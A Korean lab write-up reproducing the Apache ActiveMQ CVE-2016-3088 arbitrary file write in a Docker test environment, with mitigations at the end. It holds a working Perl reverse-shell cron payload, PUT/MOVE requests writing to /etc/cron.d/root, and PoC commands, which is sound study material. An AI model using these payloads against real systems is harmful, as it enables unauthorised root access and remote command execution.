








# ActiveMQ 임의 파일 쓰기 취약점 (CVE-2016-3088)

## 실습 개요

본 문서는 Apache ActiveMQ의 CVE-2016-3088  취약점을 Docker 환경에서 재현한 실습 내용을 정리한 보고서이다.

CVE-2016-3088은 ActiveMQ의 Fileserver 기능에서 발생하는 임의 파일 쓰기(Arbitrary File Write) 취약점으로, 공격자는 HTTP PUT과 MOVE 요청을 이용하여 원하는 파일을 서버 내부의 임의 위치로 이동시킬 수 있다. 서버가 Root 권한으로 실행되는 환경에서는 cron 설정 파일이나 웹 쉘을 배치하여 원격 명령 실행(Remote Code Execution) 까지 이어질 수 있다.

이번 실습에서는 Docker로 취약 환경을 구축한 후 제공된 PoC를 이용하여 취약점을 재현하였으며, 최종적으로 Reverse Shell을 통해 Root 권한 획득까지 확인하였다.

## 실습 환경

| 항목 | 내용 |
|------|------|
| 운영체제 | Ubuntu 24.04.4 LTS |
| Docker | Docker 29.1.3 |
| Python | Python 3.12.3 |
| 취약 환경 | Apache ActiveMQ 5.11.1 |
| Docker Image | vulhub/activemq:5.11.1-with-cron |
| 실습 도구 | Python Requests, Netcat |


실습에 앞서 프로젝트 디렉터리와 실습에 필요한 파일이 정상적으로 준비되어 있는지 확인하였다.

## 취약점 요약

이번 실습에서는 제공된 `POC.py`를 이용하여 cron 기반의 Reverse Shell 공격을 재현하였다.

실습에 사용한 명령은 다음과 같다.

```bash
python3 POC.py -url http://127.0.0.1:8161 -lhost 192.168.172.134 -lport 9999
```

PoC 실행 결과 Fileserver에 대한 PUT 요청과 MOVE 요청이 모두 정상적으로 수행되었으며 다음과 같은 결과를 확인하였다.

```
[+] PUT 요청 성공!
[+] MOVE 요청 성공!
Listening on 0.0.0.0 9999
Connection received on 172.18.0.2
```

Reverse Shell 연결 후 컨테이너 내부에서 다음 명령을 실행하였다.

```
id
whoami
pwd
```

실행 결과

```
uid=0(root) gid=0(root)
root
/root
```

위 결과를 통해 공격자가 ActiveMQ 컨테이너 내부에서 Root 권한으로 명령을 실행할 수 있음을 확인하였다.

이번 실습에서는 Docker 환경을 재시작한 후 동일한 절차를 다시 수행하였으며 동일한 결과를 확인하여 취약점이 안정적으로 재현됨을 확인하였다.

본 취약점은 Fileserver 서비스가 업로드된 파일의 이동 경로를 충분히 검증하지 않는 문제에서 발생한다. 공격자는 PUT 요청으로 파일을 업로드한 뒤 MOVE 요청을 이용하여 시스템 내부의 원하는 위치로 파일을 이동시킬 수 있다. 특히 ActiveMQ가 Root 권한으로 실행되는 경우 cron 설정 파일을 작성하여 시스템 명령을 실행하거나 웹 쉘을 배치하는 등 심각한 공격으로 이어질 수 있다.

## 환경 설정


본 실습에서는 Docker Compose를 이용하여 취약한 ActiveMQ 환경을 구성하였다. Docker 이미지는 `vulhub/activemq:5.11.1-with-cron`을 사용하였으며, 컨테이너 실행 후 ActiveMQ 웹 콘솔과 메시지 브로커 포트가 정상적으로 열리는 것을 확인하였다.

### 환경 실행

```bash
sudo docker-compose up -d
```

실행 후 컨테이너 상태를 확인한다.

```bash
sudo docker-compose ps
```


컨테이너가 `Up` 상태이면 정상적으로 실행된 것이다.

### Python 의존성 설치

PoC 실행에 필요한 requests 라이브러리를 설치한다.

```bash
pip install requests
```

### 서비스 확인

실행이 완료되면 다음 포트를 사용할 수 있다.

| 포트 | 설명 |
|------|------|
| 8161 | ActiveMQ Web Console |
| 61616 | ActiveMQ Broker |

웹 브라우저에서 아래 주소로 접속하여 ActiveMQ 관리 페이지가 정상적으로 표시되는지 확인하였다.

```
http://127.0.0.1:8161
```


실습에서는 Docker 컨테이너가 정상적으로 실행되었으며, 웹 콘솔 접속까지 확인한 후 PoC를 수행하였다.


## 배경 설명

Apache ActiveMQ는 Apache Software Foundation에서 개발한 오픈소스 메시지 브로커(Message Broker)로, 애플리케이션 간 메시지를 비동기 방식으로 전달하기 위해 사용된다. JMS(Java Message Service)를 지원하며 Queue와 Topic 기반의 메시지 전달 기능을 제공하여 다양한 기업 환경에서 활용된다.

이번 실습에서 사용한 ActiveMQ는 웹 관리 콘솔(Web Console)을 함께 제공하며, 관리 콘솔 내부에는 **admin**, **api**, **fileserver** 세 가지 기능이 포함되어 있다.

- **admin** : 관리 기능 제공
- **api** : ActiveMQ API 제공
- **fileserver** : HTTP를 이용한 파일 업로드 및 다운로드 기능 제공

실습 과정에서 확인한 결과 admin과 api 기능은 인증이 필요하지만 fileserver는 인증 없이 PUT, GET, MOVE 요청을 처리할 수 있었다. 이러한 특성 때문에 공격자는 정상적인 파일 업로드 기능을 악용하여 임의의 파일을 업로드하고, 이후 MOVE 요청을 이용해 원하는 위치로 이동시킬 수 있다.

 Fileserver 자체는 정상적인 기능이지만 파일 이동 대상에 대한 검증이 충분하지 않아 CVE-2016-3088 취약점이 발생하게 된다. 본 실습에서는 이러한 동작 과정을 Docker 환경에서 직접 확인한 후 취약점을 재현하였다.

## 취약점 정보

CVE-2016-3088은 ActiveMQ의 **Fileserver** 기능에서 발생하는 임의 파일 쓰기 취약점이다. Fileserver는 HTTP PUT 요청을 이용하여 파일을 업로드하고, MOVE 요청을 통해 파일 위치를 변경하는 기능을 제공한다.

문제는 MOVE 요청에서 전달되는 대상 경로(Destination)에 대한 검증이 충분하지 않다는 점이다. 공격자는 먼저 Fileserver에 임의의 파일을 업로드한 후, MOVE 요청을 이용하여 해당 파일을 시스템 내부의 원하는 위치로 이동시킬 수 있다.

이번 실습에서는 이 특성을 이용하여 cron 설정 파일을 업로드한 뒤 `/etc/cron.d/root` 위치로 이동시켰다. 이후 cron 서비스가 해당 파일을 실행하면서 공격자 환경으로 Reverse Shell이 연결되었고, 최종적으로 ActiveMQ 컨테이너 내부에서 Root 권한을 획득하였다.

실습 결과 PUT 요청과 MOVE 요청 모두 HTTP 204 응답을 반환하였으며, Netcat 리스너에서 Reverse Shell 연결을 확인하였다. 또한 `id` 명령 실행 결과 `uid=0(root)`가 출력되어 취약점이 정상적으로 재현되었음을 확인하였다.

본 취약점은 기본적으로 인증 없이 악용 가능하며, ActiveMQ가 높은 권한으로 실행되는 환경에서는 시스템 전체가 공격자의 제어를 받을 수 있으므로 위험도가 매우 높은 취약점으로 평가된다.

## 취약점 분석

ActiveMQ의 FileServer 서비스를 사용하면 사용자는 HTTP PUT 방식을 통해 지정된 디렉터리에 파일을 업로드할 수 있다. PUT의 백그라운드 처리를 위한 코드를 보면 localfile이라는 함수를 호출한다.<br/><br/>

파일을 생성할 때 대상 경로에 어떠한 제한이나 필터링이 적용되지 않았다.<br/><br/>

MOVE 요청의 코드에서도 localfile함수를 호출한다. move 요청 함수를 살펴보면 destination이라는 헤더를 입력받고 destination경로로 파일을 이동한다.<br/><br/>
### 실습 중 확인한 사항

소스코드 분석 결과와 실제 Docker 환경에서의 동작을 비교한 결과, Fileserver는 업로드된 파일의 이동 경로에 대한 검증이 충분하지 않음을 확인하였다.

실습에서는 먼저 PUT 요청을 이용하여 `fileserver/1.txt` 파일을 생성한 후, MOVE 요청으로 `/etc/cron.d/root` 위치에 이동시켰다. 이후 cron 서비스가 해당 파일을 실행하면서 공격자 환경으로 Reverse Shell이 연결되었으며, `id` 명령을 통해 Root 권한으로 명령이 실행되는 것을 확인하였다.

즉, 코드 분석에서 확인한 취약점이 실제 환경에서도 동일하게 재현되었으며, 단순한 파일 업로드 문제가 아니라 시스템 명령 실행으로 이어질 수 있는 위험성을 확인하였다.

## Crontab 작성, 리버스 쉘 자동화

cron을 이용하여 리버스 쉘을 자동으로 실행하도록 하였다.
/etc/cron.d/ 디렉토리에 파일을 설정하면 자동으로 해당 작업을 실행한다. 이를 이용하여 리버스쉘 코드를 /etc/cron.d/ 디렉토리에 파일 업로드하여 쉘을 획득할 수 있다. 이것은 root권한으로 ActiveMQ 서버를 열었을 때만 공격이 가능하다.

perl 명령어를 이용하여 리버스 쉘을 매분마다 실행하도록 하였다.
<br/><br/>

```
PUT /fileserver/1.txt HTTP/1.1
Host: your-ip:8161
Content-Length: 251

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="your-ip";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

cron 설정파일을 업로드 한 후 move를 이용하여 /etc/cron.d/ 디렉터리에 해당 설정 파일을 이동한다.<br/><br/>

destination 헤더에 경로를 입력하여 /etc/cron.d/root파일의 이름으로 설정 파일을 이동하였다.<br/><br/>

공격자 환경에서 리스닝 포트를 열고 기다리면 리버스 쉘이 작동하여 ActiveMQ 서버의 root 권한을 획득할 수 있다.<br/><br/>

ActiveMQ 서버의 로그를 보면 매 분마다 리버스 쉘 코드가 작동되는 것을 확인할 수 있다.

## PoC 코드 분석

이번 실습에서는 저장소에서 제공하는 `POC.py`를 이용하여 취약점을 재현하였다. 해당 PoC는 크게 두 단계로 동작한다.

### 1. 파일 업로드 (PUT 요청)

`file_create()` 함수는 HTTP PUT 요청을 이용하여 Fileserver에 cron 설정 파일을 업로드한다.

```python
response = requests.put(url, data=data)
```

업로드되는 파일에는 Perl 기반 Reverse Shell 코드가 포함되어 있으며, cron 서비스가 실행할 작업이 저장된다.

### 2. 파일 이동 (MOVE 요청)

`file_move()` 함수는 HTTP MOVE 요청을 이용하여 업로드한 파일을 `/etc/cron.d/root` 위치로 이동시킨다.

```python
headers = {'Destination': 'file:///etc/cron.d/root'}
response = requests.request('MOVE', url, headers=headers)
```

이를 통해 cron 서비스가 해당 파일을 읽고 실행할 수 있는 환경을 만든다.

### 3. Reverse Shell 연결

PoC는 마지막으로 Netcat 리스너를 실행하여 공격 대상 서버의 연결을 대기한다.

```python
command = f"nc -lvnp {args.lport}"
subprocess.call(command, shell=True)
```

cron 서비스가 실행되면 공격자 시스템으로 Reverse Shell이 연결되며, 이를 통해 원격 명령 실행이 가능하다.

## PoC 실행 및 실습 결과

이번 실습에서는 제공된 `POC.py`를 사용하여 CVE-2016-3088 취약점을 재현하였다. PoC는 Fileserver 기능을 이용하여 cron 설정 파일을 업로드한 후, MOVE 요청을 통해 `/etc/cron.d/root` 위치로 이동시킨다. 이후 cron 서비스가 실행되면서 공격자 환경으로 Reverse Shell이 연결되는 방식이다.

### 실행 명령

```bash
python3 POC.py -url http://127.0.0.1:8161 -lhost 192.168.172.134 -lport 9999
```

### 실행 결과

PoC 실행 후 다음과 같은 결과를 확인하였다.

```text
[+] PUT 요청 성공!
[+] MOVE 요청 성공!
Listening on 0.0.0.0 9999
Connection received on 172.18.0.2
```


Reverse Shell 연결 후 컨테이너 내부에서 다음 명령을 실행하였다.

```
id
whoami
pwd
```

실행 결과는 다음과 같다.

```
uid=0(root) gid=0(root)
root
/root
```




위 결과를 통해 ActiveMQ 컨테이너 내부에서 Root 권한으로 명령이 실행됨을 확인하였으며, CVE-2016-3088 취약점이 정상적으로 재현됨을 확인하였다.

# 대응 방안

CVE-2016-3088은 Fileserver 기능의 파일 업로드 및 파일 이동 과정에서 경로 검증이 충분하지 않아 발생하는 취약점이다. 따라서 다음과 같은 방법으로 위험을 줄일 수 있다.

### 1. 최신 버전 사용

취약점이 수정된 Apache ActiveMQ 버전으로 업데이트하여 해당 취약점의 영향을 받지 않도록 한다.

### 2. Fileserver 기능 제한

운영 환경에서 Fileserver 기능이 필요하지 않은 경우 비활성화하거나 외부에서 접근하지 못하도록 제한한다.

### 3. Root 권한 실행 금지

ActiveMQ를 Root 권한으로 실행하지 않고 일반 사용자 계정으로 실행하면 공격에 성공하더라도 피해 범위를 줄일 수 있다.

### 4. 관리 페이지 접근 제한

8161 포트는 관리자 페이지이므로 내부망에서만 접근하도록 설정하고 방화벽이나 ACL을 이용하여 접근을 제한한다.

### 5. PUT 및 MOVE 요청 모니터링

Fileserver에 대한 비정상적인 PUT, MOVE 요청이 반복적으로 발생하는 경우 로그를 분석하여 이상 행위를 탐지하도록 한다.

## 재현성 검증


보고서 작성 후 `sudo docker-compose down`으로 환경을 제거한 뒤 `sudo docker-compose up -d`를 통해 동일한 환경을 다시 구성하였다. 이후 동일한 PoC를 실행한 결과, PUT 요청, MOVE 요청, Reverse Shell 연결 및 Root 권한 획득이 동일하게 재현됨을 확인하였다.

# 실습 후기

이번 실습을 통해 Docker 환경에서 Apache ActiveMQ 취약점을 직접 재현해보면서 단순히 취약점 원리를 이해하는 것뿐만 아니라 실제 공격이 어떤 과정으로 이루어지는지 확인할 수 있었다.

특히 HTTP PUT과 MOVE 요청만으로 시스템 내부에 파일을 이동시킬 수 있다는 점이 인상적이었으며, 이후 cron 기능을 이용하여 Reverse Shell이 연결되고 최종적으로 Root 권한을 획득하는 과정을 직접 확인하였다.

실습 전에는 취약점 내용을 문서로만 접했지만, 직접 Docker 환경을 구축하고 PoC를 실행하면서 재현 과정을 경험하니 취약점의 위험성과 대응 방법을 훨씬 명확하게 이해할 수 있었다. 또한 동일한 환경에서 여러 번 실습을 반복하면서 재현 절차를 정리하는 과정이 보고서 작성에도 많은 도움이 되었다.

